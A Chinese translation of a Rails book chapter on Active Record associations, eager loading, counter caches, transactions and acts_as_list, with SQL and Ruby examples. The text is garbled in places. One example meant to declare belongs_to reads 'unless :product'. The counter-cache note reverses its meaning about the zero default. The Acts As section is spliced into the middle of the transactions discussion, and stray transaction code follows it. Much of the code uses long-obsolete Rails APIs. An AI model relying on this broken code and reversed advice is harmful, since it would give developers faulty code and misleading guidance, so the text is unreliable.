另一种关系类型是某个数量的一种事物与某个数量的另一种事物相关联（例如，产品属于多个类别，类别包含多个产品）。处理此问题的 SQL 约定是使用第三个表，称为连接表。连接表包含它所连接的每个表的外键，因此连接表中的每一行代表另外两个表之间的一个链接。

```sql
create table products (
    id                int            not null auto_increment,
    title             varchar(100)   not null,
    /* . . . */
    primary key (id)
);
```

```sql
create table categories (
    id                int            not null auto_increment,
    name              varchar(100)   not null,
    /* . . . */
    primary key (id)
);
```

```sql
create table categories_products (
    product_id        int            not null,
    category_id       int            not null,
    constraint fk_cp_product  foreign key (product_id)  references products(id),
    constraint fk_cp_category foreign key (category_id) references categories(id)
);
```

根据模式，你可能希望在连接表中添加额外信息，可能描述被连接行之间关系的性质。

Rails 假设连接表以其连接的两个表命名（按字母顺序排列名称）。Rails 会自动找到连接 `categories` 和 `products` 的连接表 `categories_products`。如果你使用了其他名称，则需要添加声明以便 Rails 能找到它。

## 指定关系

Active Record 支持表之间的三种关系类型：一对一、一对多和多对多。你通过向模型添加声明来表明这些关系：`has_one`、`has_many`、`belongs_to` 和 `has_and_belongs_to_many`。

一对一关系可能存在于订单和发票之间：每个订单最多有一个发票。我们在 Rails 中这样声明它：

```ruby
class Order < ActiveRecord::Base
  has_one :invoice
  ...
end

class Invoice < ActiveRecord::Base
  belongs_to :order
  ...
end
```

订单和明细项之间是一对多关系：一个特定的订单可以关联任意数量的明细项。在 Rails 中，我们这样编码：

```ruby
class Order < ActiveRecord::Base
  has_many :line_items
  ...
end

class LineItem < ActiveRecord::Base
  belongs_to :order
  ...
end
```

我们可能会对产品进行分类。一个产品可以属于多个类别，每个类别可能包含多个产品。这是多对多关系的一个例子，在 Rails 中表示为：

```ruby
class Product < ActiveRecord::Base
  has_and_belongs_to_many :categories
  ...
end

class Category < ActiveRecord::Base
  has_and_belongs_to_many :products
  ...
end
```

这些链接声明的作用不仅仅是指定表之间的关系。它们都向模型添加了许多方法，以帮助在关联对象之间导航。让我们在三种不同的表间链接类型背景下更详细地了解这些。我们也会查看每个声明注入到其宿主类中的方法。我们在图 16.5（第 296 页）中对它们进行了总结。要获得更深入和最新的信息，请参阅相应方法的 RDoc 文档。

## 一对一关联

一对一关联（或者更准确地说，是一种一对一或零的关系）是通过在一个表的某一行中使用一个外键来引用另一个表中最多单个行来实现的。前图展示了订单与发票之间的一对一关系：一个订单要么没有引用它的发票，要么只有一个引用它的发票。

在 Active Record 中，我们通过在 `Order` 类中添加 `has_one :invoice` 声明，同时在 `Invoice` 类中添加 `belongs_to :order` 声明来表示这种关系。（记住，`belongs_to` 这一行必须出现在包含外键的表的模型中。）

你可以从关系的任一侧将发票与订单关联：你可以告诉订单它有一个关联的发票，或者你可以告诉发票它关联到一个订单。两者几乎是等价的。区别在于它们保存（或不保存）对象到数据库的方式。如果你将一个对象分配给现有对象的 `has_one` 关联，该关联对象将被自动保存。

```ruby
an_invoice = Invoice.new(...)
order.invoice = an_invoice  # invoice gets saved
```

如果你将一个新对象分配给 `belongs_to` 关联，它永远不会被自动保存。

```ruby
order = Order.new(...)
an_invoice.order = order # Order will not be saved
```

还有一个区别。当你将一个新对象分配给 `has_one` 关联时，如果已经存在一个子对象，那个现有对象将被更新以移除其与父行的外键关联（外键将被设置为 null）。这在下一页的图 16.4 中有所展示。

**David 说……为什么关联中的事物会被保存**

看起来可能有些不一致：将订单分配给发票不会立即保存关联，但反过来会。这是因为 `invoices` 表是唯一持有关系信息的表。因此，当你关联订单和发票时，总是发票行持有信息。当你将订单分配给发票时，你可以很容易地将这部分作为对发票行更大更新的一部分，该更新可能还包括账单日期。因此，可以将原本可能需要两次的数据库更新折叠为一次。在 ORM 中，通常的规则是数据库调用越少越好。

当一个订单对象被分配了一个发票时，它仍然需要更新发票行。因此，将该关联推迟到订单保存时没有任何额外的好处。事实上，这样做需要多得多的软件。而 Rails 的核心就是更少的软件。

最后，这里存在一个危险。如果子行无法保存（例如，因为验证失败），Active Record 不会报错——你不会得到任何关于该行未添加到数据库的指示。因此，我们强烈建议不要使用前面的代码，而是这样写：

```ruby
invoice = Invoice.new
### fill in the invoice
invoice.save!
an_order.invoice = invoice
```

`save!` 方法在失败时会抛出异常，这样至少你会知道出了问题。

### belongs_to() 声明

`belongs_to()` 声明给定的类具有到包含该声明的类的父级关系。虽然属于（belongs to）可能不是描述这种关系时首先想到的短语，但 Active Record 的惯例是，包含外键的表属于它所引用的表。如果这有助于理解，在编码时你可以想着引用（references），但写 `belongs_to`。

图 16.4：向 `has_one` 关联添加内容

父类名被假定为属性名的混合大小写单数形式，外键字段是父类名的单数形式加上 `_id` 后缀。因此，给定以下代码：

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :product
  belongs_to :invoice_item
end
```

Active Record 会将 `line_items` 链接到 `Product` 和 `InvoiceItem` 类。在底层模式中，它使用外键 `product_id` 和 `invoice_item_id` 分别引用 `products` 和 `invoice_items` 表中的 `id` 列。

你可以通过在关联名称后传递一个选项哈希给 `belongs_to()` 来覆盖这些和其他假设。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :paid_order,
             :class_name  => "Order",
             :foreign_key => "order_id",
             :conditions  => "paid_on is not null"
end
```

在这个例子中，我们创建了一个名为 `paid_order` 的关联，它是指向 `Order` 类（因此也是 `orders` 表）的引用。链接通过 `order_id` 外键建立，但通过 `conditions` 子句进一步限定，它只有在目标行的 `paid_on` 列不为 null 时才会找到一个订单。在这种情况下，我们的关联没有直接映射到底层 `line_items` 表中的单个列。

`belongs_to()` 方法创建了许多用于管理关联的实例方法。这些方法都以关联名称开头命名。例如：

```ruby
### Download e1/ar/associations.rb

item = LineItem.find(2)

### item.product 是关联的 Product 对象
puts "Current product is #{item.product.id}"
puts item.product.title

item.product = Product.new(:title       => "Advanced Rails",
                          :description => "...",
                          :image_url   => "http://....jpg",
                          :price       => 34.95,
                          :date_available => Time.now)
item.save!

puts "New product is #{item.product.id}"
puts item.product.title
```

如果我们运行这个（并具有适当的数据库连接），我们可能会看到如下输出：

```text
Current product is 2
Programming Ruby
New product is 37
Advanced Rails
```

我们使用了 `product()` 和 `product=()` 方法，这些方法在 `LineItem` 类中生成，用于访问和更新与 `line_item` 对象关联的产品对象。在底层，Active Record 保持数据库同步。当我们保存相应的 `line_item` 时，它自动保存了我们创建的新产品，并将该 `line_item` 链接到那个新产品的 `id`。

`belongs_to()` 向使用它的类添加方法。以下描述假设 `LineItem` 类已被定义为属于 `Product` 类。

```ruby
class LineItem < ActiveRecord::Base
  unless :product
end
```

在这种情况下，以下方法将为 `line_items` 及其所属的 `products` 定义：

```text
product(force_reload=false)
        返回关联的产品（如果不存在关联的产品则返回 nil）。结果会被缓存，除非传递 true 作为参数，否则如果该订单之前已被获取，则不会再次查询数据库。

product=(obj)
        将此 line_item 与给定的 product 关联，将此 line_item 中的外键设置为 product 的主键。如果 product 尚未保存，它将在 line_item 保存时被保存，并且键将在此时链接。

build_product(attributes={})
        构建一个新的 product 对象，使用给定的属性初始化。此 line_item 将链接到它。该 product 尚未保存。

create_product(attributes={})
        构建一个新的 product 对象，将此 line_item 链接到它，并保存该 product。
```

### has_one() 声明

`has_one` 声明给定的类（默认是属性名的混合大小写单数形式）是此类的子类。`has_one` 声明在模型对象中定义了与 `belongs_to` 相同的一组方法，因此给定如下类定义：

```ruby
class Order < ActiveRecord::Base
  has_one :invoice
end
```

我们可以这样写：

```ruby
order = Order.new
invoice = Invoice.new
if invoice.save
  order.invoice = invoice
end
```

你可以通过向 `has_one` 传递选项哈希来修改 Active Record 的默认行为。除了我们在 `belongs_to()` 中看到的 `:class_name`、`:foreign_key` 和 `:conditions` 选项外，我们还可以使用 `:dependent` 和 `:order`。

## 一对多关联

一对多关联允许您表示一个对象的集合。例如，一个订单可能包含任意数量的关联行项目。在数据库中，特定订单的所有行项目行都包含一个指向该订单的外键列。

在 Active Record 中，父对象（逻辑上包含子对象集合的那个对象）使用 `has_many` 来声明其与子表的关系，而子表使用 `belongs_to` 来指示其父表。在我们的例子中，`LineItem` 类 `belongs_to :order`，而 `orders` 表 `has_many :line_items`。

我们已经看过 `belongs_to()` 关系声明。它在这里的表现与在一对一关系中相同。而 `has_many` 声明则为其模型增添了不少功能。

### has_many() 声明

`has_many` 定义了一个表现得像子对象集合的属性。您可以将子项作为数组来访问、查找特定的子项以及添加新的子项。例如，下面的代码向订单中添加一些行项目。

```ruby
order = Order.new
params[:products_to_buy].each do |prd_id, qty|
  product = Product.find(prd_id)
  order.line_items << LineItem.new(:product  => product,
                                 :quantity => qty)
end
```

追加操作符（`<<`）不仅仅是向订单内的列表追加一个对象。它还安排通过将行项目的外键设置为此订单的 `id` 来将其链接回此订单，并且当父订单保存时，这些行项目会自动保存。

我们可以遍历 `has_many` 关系的子项——该属性表现得像一个数组。

```ruby
order = Order.find(123)
total = 0.0
order.line_items.each do |li|
  total += li.quantity * li.unit_price
end
```


与`has_one`一样，您可以通过向`has_many`提供一个选项哈希表来修改 Active Record 的默认设置。选项`:class_name`、`:foreign_key`、`:conditions`、`:order`和`:dependent`的工作方式与在`has_one`方法中相同。`has_many`添加了`:exclusively_dependent`、`:finder_sql`和`:counter_sql`选项。我们还将讨论`:order`选项，该选项我们在`has_one`下列出但未描述。

`has_one`和`has_many`都支持`:dependent`选项。这告诉 Rails 在销毁父表中的一行时，也销毁子表中的依赖行。这通过遍历子表，对每一行外键引用被删除父行的记录调用`destroy()`来实现。

然而，如果子表仅由父表使用（即没有其他依赖），并且它没有在删除时执行任何操作的钩子方法，您可以使用`:exclusively_dependent`选项代替`:dependent`。如果设置了此选项，子行将在单个 SQL 语句中被全部删除（这会更快）。

最后，您可以通过设置`:finder_sql`和`:counter_sql`选项来覆盖 Active Record 用于获取和计数子行的 SQL。这在简单地使用`:condition`选项添加`where`子句不够用的情况下很有用。例如，您可以创建一个包含特定产品所有行项目的集合。

```ruby
class Order < ActiveRecord::Base
  has_many :rails_line_items,
           :class_name => "LineItem",
           :finder_sql => "select l.* from line_items l, products p " +
                          " where l.product_id = p.id " +
                          "   and p.title like '%rails%'"
end
```

`:counter_sql`选项用于覆盖 Active Record 在计数行时使用的查询。如果指定了`:finder_sql`而未指定`:counter_sql`，Active Record 会通过将 finder SQL 的 select 部分替换为`select count(*)`来合成计数 SQL。

`:order`选项指定一个 SQL 片段，该片段定义了从数据库加载行到集合的顺序。如果您需要集合在遍历时具有特定顺序，则需要指定`:order`选项。您提供的 SQL 片段只是将出现在 select 语句的`order by`子句之后的文本。它由一个或多个列名组成。集合将根据列表中的第一列进行排序。如果两行在此列中的值相同，排序将使用列表中的第二个条目来决定它们的顺序，依此类推。每列的默认排序顺序是升序——在列名后放置关键字`DESC`可以反转此顺序。

以下代码可用于指定订单的行项目按数量排序（最小数量在前）。

```ruby
class Order < ActiveRecord::Base
  has_many :line_items,
            :order => "quantity, unit_price DESC"
end
```

如果两个行项目具有相同的数量，则单位价格最高的那个将排在前面。

回到我们讨论`has_one`时，我们提到它也支持`:order`选项。这可能看起来很奇怪——如果一个父对象只关联一个子对象，那么在获取该子对象时指定顺序有什么意义呢？

事实证明，Active Record 可以创建底层数据库中不存在的`has_one`关系。例如，一个客户可能有许多订单：这是一个`has_many`关系。但该客户只会有一个*最近的*订单。我们可以使用结合了`:order`选项的`has_one`来表达这一点。

```ruby
class Customer < ActiveRecord::Base
  has_many :orders
  has_one  :most_recent_order,
            :class_name => 'Order',
            :order       => 'created_at DESC'
end
```

此代码在客户模型中创建一个新属性`most_recent_order`。它将引用具有最新`created_at`时间戳的订单。我们可以使用此属性来查找客户最近的订单。

```ruby
cust = Customer.find_by_name("Dave Thomas")
puts "Dave last ordered on #{cust.most_recent_order.created_at}"
```

这之所以有效，是因为 Active Record 实际上使用如下 SQL 来获取`has_one`关联的数据：

```sql
SELECT * FROM orders
WHERE   customer_id = ?
ORDER   BY created_at DESC
LIMIT   1
```

`limit`子句意味着只返回一行，满足了`has_one`声明中的“一”的部分。`order by`子句确保该行将是最近的。

### `has_many()`添加的方法

就像`belongs_to`和`has_one`一样，`has_many`向其宿主类添加了许多与属性相关的方法。同样，这些方法的名称以属性的名称开头。在下面的描述中，我们将列出由以下声明添加的方法：

```ruby
class Customer < ActiveRecord::Base
  has_many :orders
end
```

- `orders(force_reload=false)`：返回与该客户关联的订单数组（如果没有，则可能为空）。结果会被缓存，如果之前已经获取过订单，除非传入`true`作为参数，否则不会再次查询数据库。
- `orders << order`：将`order`添加到与该客户关联的订单列表中。
- `orders.push(order1, ...)`：将一个或多个`order`对象添加到与该客户关联的订单列表中。`concat()`是此方法的别名。
- `orders.delete(order1, ...)`：从与该客户关联的订单列表中删除一个或多个`order`对象。这不会从数据库中删除订单对象——它只是将其外键`customer_id`设置为空，从而断开关联。

### 其他类型的关联

Active Record 还实现了表行之间的一些高级关联。你可以拥有表，其中的行条目可以充当列表中的元素、树中的节点或嵌套集合中的实体。我们从第 307 页开始讨论这些所谓的*acts as*模块。

- `orders.clear`：解除此客户与所有订单的关联。与`delete()`类似，这会断开关联，但只有当订单被标记为`:dependent`时才会从数据库中删除订单。
- `orders.find(options...)`：发出常规的`find()`调用，但结果仅限于返回与此客户关联的订单。支持`id`、`:all`和`:first`形式。
- `orders.build(attributes={})`：构造一个新的订单对象，使用给定的属性初始化并链接到客户。它不会被保存。
- `orders.create(attributes={})`：构造并保存一个新的订单对象，使用给定的属性初始化并链接到客户。

### 多对多关联



多对多关联是对称的——两个关联的表都使用`has_and_belongs_to_many`声明彼此的关联。

在数据库中，多对多关联是通过一个中间连接表实现的。这个连接表包含链接两个目标表的外键对。Active Record 假设这个连接表的名称是按字母顺序排列的两个目标表名称的连接。在上面的例子中，我们将 `categories` 表与 `products` 表连接起来，因此 Active Record 会寻找一个名为 `categories_products` 的连接表。

请注意，我们的连接表没有`id`列。这有两个原因。首先，它不需要——行由两个外键的组合唯一定义。我们将使用类似以下内容在 DDL 中定义此表。

```sql
create table categories_products (
    category_id    int        not null,
    product_id     int        not null,
    constraint fk_cp_category foreign key (category_id) references categories(id),
    constraint fk_cp_product  foreign key (product_id)  references products(id),
    primary key (category_id, product_id)
);
```

连接表中不包含`id`列的第二个原因是，当使用连接表访问行时，Active Record 会自动包含连接表的所有列。如果连接表包含一个名为`id`的列，它的 id 会覆盖连接表中行的 id。我们稍后会回到这一点。

### `has_and_belongs_to_many()`声明

`has_and_belongs_to_many`（以下简称 `habtm`，以节省我可怜的手指）在很多方面的作用类似于`has_many`。`habtm`创建一个本质上是集合的属性。此属性支持与`has_many`相同的方法。

此外，`habtm`允许你在关联两个对象时向连接表添加信息。让我们看一个非我们商店应用程序的例子来说明这一点。

也许我们正在使用 Rails 编写一个社区网站，用户可以在其中阅读文章。有许多用户和（可能）许多文章，并且任何用户都可以阅读任何文章。出于跟踪目的，我们希望知道阅读每篇文章的人员以及每个人阅读的文章。我们还希望知道用户查看特定文章的最后时间。我们将通过一个简单的连接表来实现这一点。



我们将设置我们的两个模型类，以便它们通过此表相互链接。

```ruby
class Article < ActiveRecord::Base
  has_and_belongs_to_many :users
  # ...
end

class User < ActiveRecord::Base
  has_and_belongs_to_many :articles
  # ...
end
```

这使我们能够做诸如列出阅读过文章 123 的所有用户和`pragdave`阅读过的所有文章之类的事情。

```ruby
### 谁阅读了文章 123？
article = Article.find(123)
readers = article.users

### Dave 阅读了什么？
dave = User.find_by_name("pragdave")
articles_that_dave_read = dave.articles
```

当我们的应用程序注意到有人阅读了一篇文章时，它会将他们的用户记录与文章链接起来。我们将使用 User 类中的一个实例方法来完成此操作。

```ruby
class User < ActiveRecord::Base
  has_and_belongs_to_many :articles

  def read_article(article)
    articles.push_with_attributes(article, :read_at => Time.now)
  end

  # ...
end
```

对`push_with_attributes()`的调用执行了与`<<`方法链接两个模型相同的所有工作，但它还在每次有人阅读文章时向连接表行添加给定的值。

与其他关系方法一样，`habtm`支持一系列覆盖 Active Record 默认值的选项。`:class_name`、`:foreign_key`和`:conditions`的工作方式与其他`has_`方法相同（`:foreign_key`选项设置连接表中此表的外键列的名称）。此外，`habtm()`支持覆盖连接表的名称、连接表中外部键列的名称以及用于查找、插入和删除两个模型之间链接的 SQL 的选项。有关详细信息，请参阅 RDoc。

### 自引用连接

表中的行可以引用回该表中的另一行。例如，公司中的每个员工可能既有一个经理又有一个导师，他们也都是员工。你可以使用以下`Employee`类在 Rails 中对此进行建模。

下载`el/ar/self_association.rb`

```ruby
class Employee < ActiveRecord::Base

  belongs_to :manager,
           :class_name  => "Employee",
           :foreign_key => "manager_id"

  belongs_to :mentor,
           :class_name  => "Employee",
           :foreign_key => "mentor_id"

  has_many :mentored_employees,
           :class_name  => "Employee",
           :foreign_key => "mentor_id"
end
```

> David 说……
>
> **当关联想要成为模型时**
>
> 虽然带属性的多对多关系通常看起来像是显而易见的选择，但它常常是缺失领域模型的幻影。当它是缺失的领域模型时，将这种关系转换为真实的模型并用更丰富的一组行为对其进行修饰可能会更有优势。这让你能够用伴随数据的方法。
>
> 例如，我们可以将 `articles_users` 关系转变为一个名为 `Reading` 的新模型。这个 `Reading` 模型将属于一个文章和一个用户。现在它成为放置诸如 `find_popular_articles()` 方法的明显位置，这些方法可以执行分组查询并返回阅读次数最多的文章。这减轻了 `Article` 模型的负担，并将流行度的概念转化为一个自然属于 `Reading` 模型的关注点。

```ruby
has_many :managed_employees,
  :class_name => "Employee",
  :foreign_key => "manager_id"
```

让我们加载一些数据。Clem 和 Dawn 各有一个经理和一个导师。

| | `has_one :other` | `belongs_to :other` |
|---|---|---|
| `other(force_reload = false)` | ✓ | ✓ |
| `other=` | ✓ | ✓ |
| `other.nil?` | ✓ | ✓ |
| `build_other(...)` | ✓ | |
| `create_other(...)` | ✓ | |

| | `has_many :others` | `habtm :others` |
|---|---|---|
| `others(force_reload = false)` | ✓ | ✓ |
| `others <<` | ✓ | ✓ |
| `others.delete(...)` | ✓ | ✓ |
| `others.clear` | ✓ | |
| `others.empty?` | ✓ | |
| `others.size` | ✓ | |
| `others.find(...)` | ✓ | ✓ |
| `others.build(...)` | ✓ | |
| `others.create(...)` | ✓ | |
| `others.push_with_attributes(...)` | | ✓ |

图 16.5：由关系声明创建的方法

```ruby
下载 e1/ar/self_association.rb

Employee.delete_all

adam = Employee.create(:id => 1, :name => "Adam")
beth = Employee.create(:id => 2, :name => "Beth")

clem = Employee.new(:name => "Clem")
clem.manager = adam
clem.mentor  = beth
clem.save!

dawn = Employee.new(:name => "Dawn")
dawn.manager = adam
dawn.mentor  = clem
dawn.save!
```

然后我们可以遍历关系，回答诸如“谁是 X 的导师？”和“Y 管理哪些员工？”之类的问题。

```ruby
p adam.managed_employees.map {|e| e.name}  # => [ "Clem", "Dawn" ]
p adam.mentored_employees                  # => []

p dawn.mentor.name                         # => "Clem"
```

你可能还想看看各种*acts as*关系，从第 307 页开始描述。

### 预加载子行

通常 Active Record 会延迟从数据库加载子行，直到你引用它们。例如，借鉴 RDoc 中的例子，假设一个博客应用程序有一个如下所示的模型。


```ruby
class Post < ActiveRecord::Base
  belongs_to :author
  has_many   :comments, :order => 'created_on DESC'
end
```

如果我们遍历帖子，访问作者和评论属性，我们将使用一个 SQL 查询返回帖子表中的`n`行，以及每个获取作者和评论表中行的`n`个查询，总共`2n+1`个查询。

```ruby
for post in Post.find(:all)
  puts "Post:           #{post.title}"
  puts "Written by:     #{post.author.name}"
  puts "Last comment on: #{post.comments.first.created_on}"
end
```

这个性能问题有时通过`find()`方法的`:include`选项来解决。它列出了在执行查找时要预加载的关联。Active Record 以相当智能的方式执行此操作，使得整个数据块（包括主表和所有关联表）都在单个 SQL 查询中获取。如果有 100 篇帖子，以下代码将比前面的示例减少 100 个查询。

```ruby
for post in Post.find(:all, :include => :author)
  puts "Post:           #{post.title}"
  puts "Written by:     #{post.author.name}"
  puts "Last comment on: #{post.comments.first.created_on}"
end
```

而这个示例将所有操作简化为只有一个查询。

```ruby
for post in Post.find(:all, :include => [:author, :comments])
  puts "Post:           #{post.title}"
  puts "Written by:     #{post.author.name}"
  puts "Last comment on: #{post.comments.first.created_on}"
end
```

这种预加载并不能保证一定提升性能。⁹ 在底层，它会将查询中的所有表连接起来，因此最终可能会返回大量数据并转换为 Active Record 对象。如果你的应用程序没有使用这些额外信息，你就是白白增加了开销。如果父表包含大量行，还可能引发问题——与逐行的惰性加载相比，预加载技术会消耗更多的服务器内存。

如果你使用`:include`，就需要为`find()`方法中其他参数里用到的所有列名消除歧义——为每个列名加上它所在表的名称作为前缀。在下面的例子中，条件语句中的`title`列需要加上表名前缀，查询才能成功执行。

```ruby
for post in Post.find(:all, :conditions => "posts.title like '%ruby%'",
             :include => [:author, :comments])
  # ...
end
```

### 计数器

`has_many`关系定义了一个集合属性。询问这个集合的大小似乎是合理的：这个订单有多少个订单项？实际上你会发现，这个聚合关联有一个`size()`方法，它返回关联中的对象数量。这个方法会访问数据库，在子表上执行`select count(*)`，统计外键引用父表行的行数。

这个方法可行且可靠。然而，如果你正在编写一个网站，并且经常需要知道子项的数量，这额外的 SQL 开销可能正是你想要避免的。Active Record 可以使用一种称为计数器缓存的技术来解决这个问题。在子模型的`belongs_to`声明中，你可以让 Active Record 在父表行中维护关联子项的计数。这个计数会自动维护——如果你添加一个子行，父行中的计数会递增；如果你删除一个子行，计数会递减。

要激活此功能，你需要执行两个简单的步骤。首先，在子表的`belongs_to`声明中添加`:counter_cache`选项。

> ⁹实际上，它可能根本不工作！如果你的数据库不支持左外连接，你就无法使用此功能。例如，Oracle 8 的用户需要升级到版本 9 才能使用预加载。

```ruby
Download e1/ar/counters.rb
class LineItem < ActiveRecord::Base
  belongs_to :product, :counter_cache => true
end
```

其次，在父表的定义中（本例中是`products`），你需要添加一个整数列，列名是子表的名称加上`_count`后缀。

```sql
Download e1/ar/create.sql
create table products (
    id            int          not null auto_increment,
    title         varchar(100) not null,
    /* ... */
    line_items_count int        default 0,
    primary key (id)
);
```

这条 DDL 语句中有一个要点。该列必须声明为默认值为零（或者你必须执行等效操作，在创建父行时将值设置为零）。如果这样做，无论子行数量有多少，计数最终都会为`null`值。

一旦你完成了这些步骤，你就会发现父行中的计数器列会自动跟踪子行的数量。

计数器缓存有一个问题。计数由包含集合的对象维护，如果通过该对象添加条目，计数会正确更新。然而，你也可以通过在子对象中直接设置关联关系来将子项与父项关联。在这种情况下，计数器不会被更新。

以下示例展示了向关联中添加条目的错误方式。这里我们手动将子项链接到父项。注意`size()`属性在我们强制父类刷新集合之前是不正确的。

```ruby
Download e1/ar/counters.rb
product = Product.create(:title => "Programming Ruby",
                        :date_available => Time.now)

line_item = LineItem.new
line_item.product = product
line_item.save

puts "In memory size = #{product.line_items.size}"
puts "Refreshed size = #{product.line_items(:refresh).size}"
```

输出为：

```text
In memory size = 0

Refreshed size = 1
```

正确的方法是将子项添加到父项中。

```ruby
product = Product.create(:title => "Programming Ruby",
                                 :date_available => Time.now)
product.line_items.create
```

```ruby
puts "In memory size = #{product.line_items.size}"
puts "Refreshed size = #{product.line_items(:refresh).size}"
```

这将输出正确的数字。（代码也更短，这告诉你做法是正确的。）

```text
In memory size = 1

Refreshed size = 1
```

## 16.7 事务

数据库事务将一系列更改组合在一起，使得要么所有更改都被应用，要么没有更改被应用。事务需求的经典例子（也是 Active Record 自己文档中使用的例子）是在两个银行账户之间转账。基本逻辑很简单。

```ruby
account1.deposit(100)
account2.withdraw(100)
```

然而，我们必须小心。如果存款成功但由于某种原因取款失败会怎样（也许客户透支了）？我们将在`account1`的余额中增加 100 美元，而没有从`account2`中相应扣除。实际上，我们凭空创造了 100 美元。

事务来救场了。事务有点像三个火枪手及其座右铭“人人为我，我为人人”。在事务的作用域内，要么每条 SQL 语句都成功，要么它们都不起作用。换句话说，如果任何语句失败，整个事务对数据库都没有影响。¹⁰

> ¹⁰事务实际上比这更微妙。它们表现出所谓的 ACID 特性：它们是原子的（Atomic），确保一致性（Consistency），在隔离环境中工作（Isolation），并且其效果是持久的（Durable）（当事务提交时，它们会被永久化）。如果你打算让一个数据库应用上线，值得找一本好的数据库书来研读关于事务的内容。

在 Active Record 中，我们使用`transaction()`方法在特定数据库事务的上下文中执行一个代码块。在代码块结束时，事务会被提交并更新数据库，除非在代码块中引发了异常，在这种情况下，所有更改都会被回滚，数据库保持原样。因为事务存在于数据库连接的上下文中，所以我们必须使用一个 Active Record 类作为接收者来调用它们。因此我们可以这样写：

```ruby
Account.transaction do
  account1.deposit(100)
  account2.withdraw(100)
end
```

让我们来试验一下事务。首先创建一个新的数据库表。因为我们使用的是 MySQL 数据库，我们必须请求一个使用 InnoDB 存储引擎的表，因为它支持事务。

```sql
Download e1/ar/create.sql
create table accounts (
  id          int         not null auto_increment,
  number      varchar(10) not null,
  balance     decimal(10,2) default 0.0,
  primary key (id)
) type=InnoDB;
```

接下来，我们将定义一个简单的银行账户类。这个类定义了存款和取款的实例方法（这些方法将工作委托给一个共享的辅助方法）。它还提供了一些基本的验证——对于这种特定类型的账户，余额永远不能为负。

```ruby
Download e1/ar/transactions.rb
class Account < ActiveRecord::Base

  def withdraw(amount)
    adjust_balance_and_save(-amount)
  end

  def deposit(amount)
    adjust_balance_and_save(amount)
  end

  private

  def adjust_balance_and_save(amount)
    self.balance += amount
    save!
  end
end
```

```ruby
def validate # validation is called by Active Record
  errors.add(:balance, "is negative") if balance < 0
end
end
```

让我们看看辅助方法`adjust_balance_and_save()`。第一行只是更新了余额字段。然后该方法尝试使用`save!`保存模型。（记住，`save!`在对象无法保存时会引发异常——我们使用异常来向事务发出信号，表明出了问题。）

那么现在让我们编写两个账户之间转账的代码。这非常直接。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
Account.transaction do
  paul.deposit(10)
  peter.withdraw(10)
end
```

我们检查数据库，果然，钱已经转过去了。

| id | number | balance |
|----|--------|---------|
| 5  | 12345  | 90.00   |
| 6  | 54321  | 210.00  |

现在让我们来点激进的。如果我们重新开始，但这次尝试转账 350 美元，我们将使 Peter 透支，这是验证规则所不允许的。让我们试一试。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
Account.transaction do
  paul.deposit(350)
  peter.withdraw(350)
end
```

当我们运行这段代码时，控制台会报告一个异常。

## 17.1 Acts As

我们已经了解了`has_one`、`has_many`和`has_and_belongs_to_many`如何帮助我们表示一对一、一对多和多对多的标准关系数据库结构。但有时我们需要在这些基础之上构建更多功能。

例如，一个订单可能有一系列发票项目。到目前为止，我们使用`has_many`成功地表示了这些。但随着应用程序的增长，我们可能需要为这些行项目添加更多类似列表的行为，使我们能够将行项目按特定顺序排列，并在该顺序中移动它们。

或者，我们可能希望以树状数据结构管理我们的产品分类，其中分类有子分类，而这些子分类又可能拥有自己的子分类。

Active Record 支持在现有的`has_`关系之上添加这些功能。它将这种支持称为 *acts as*，因为它使模型对象表现得如同它是别的东西。¹

### Acts As List

在子类中使用`acts_as_list`声明，可以从父类的角度赋予该子类类似列表的行为。父类将能够遍历子类，在列表中移动子类，以及从列表中移除子类。

> ¹Rails 附带三个 *acts as* 扩展：`acts_as_list`、`acts_as_tree`和`acts_as_nested_set`。我选择只记录前两个；在本书最终定稿时，嵌套集变体存在一些严重问题，导致我们无法用可运行的代码验证其用法。

Prepared exclusively for Leonardo Augusto Pires

列表通过为每个子项分配一个位置编号来实现。这意味着子表必须有一个列来记录这个位置。如果我们称该列为`position`，Rails 将自动使用它。如果不是，我们需要告诉它列名。在我们的示例中，我们将创建一个新的子表（称为`children`）和一个父表。

```sql
create table parents (
  id               int          not null auto_increment,
  primary key (id)
);

create table children (
  id               int          not null auto_increment,
  parent_id        int          not null,
  name             varchar(20),
  position         int,
  constraint fk_parent    foreign key (parent_id) references parents(id),
  primary key (id)
);
```

接下来我们将创建模型类。注意，在`Parent`类中，我们根据`position`列的值对子项进行排序。这确保了从数据库获取的数组具有正确的列表顺序。

```ruby
class Parent < ActiveRecord::Base
  has_many :children, :order => :position
end

class Child < ActiveRecord::Base
  belongs_to :parent
  acts_as_list :scope => :parent_id
end
```

在`Child`类中，我们有常规的`belongs_to`声明，建立了与父类的连接。我们还有一个`acts_as_list`声明。我们通过`:scope`选项来限定它，指定列表是按父类分组的。没有这个作用域操作符，`children`表中的所有条目将属于一个全局列表。

现在我们可以设置一些测试数据：我们将为特定父类创建四个子项，分别称为 One、Two、Three 和 Four。

```ruby
parent = Parent.new
%w{ One Two Three Four}.each do |name|
  parent.children.create(:name => name)
end
```

## More Active Record

### Acts As List

（续上节）

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
begin
  Account.transaction(peter, paul) do
    paul.deposit(350)
    peter.withdraw(350)
  end
